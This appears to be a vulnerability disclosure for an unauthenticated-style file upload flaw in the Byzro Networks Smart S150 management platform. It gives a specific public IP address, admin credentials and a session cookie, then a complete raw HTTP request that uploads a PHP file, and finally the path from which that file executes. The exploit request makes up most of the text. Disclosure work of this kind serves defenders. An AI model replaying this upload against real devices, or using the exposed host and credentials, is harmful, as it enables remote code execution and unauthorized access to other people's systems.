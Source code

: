 There is a file upload vulnerability in Byzro Networks Smart S150 management platform

version:S150

Ip：https://218.205.129.204:8443/

1、The login interface is shown in the figure.

admin/b3f9t8k7

![image](https://github.com/tolkent/cve/assets/93599994/b88bbc0d-3dff-42bf-8dd7-470aba73f2f9)


2. Construct a POC and directly upload the 1.php file.

POC
```
POST /useratte/userattestation.php HTTP/1.1
Host: 218.205.129.204:8443
Cookie: PHPSESSID=8efec9a45b08e405fc0e79bfa7b0d0ac
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 592
Origin: https://218.205.129.204:8443
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="web_img"; filename="1.php"
Content-Type: application/octet-stream

<?php echo 1234;?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hidwel"

set
-----------------------------42328904123665875270630079328?
```
![image](https://github.com/tolkent/cve/assets/93599994/8c4b6e21-802c-4d2c-8732-c400fb5dbc29)

Visit /boot/web/upload/weblogo/1.php

![image](https://github.com/tolkent/cve/assets/93599994/28f411f7-8548-4da4-8cf5-115f54d1477b)

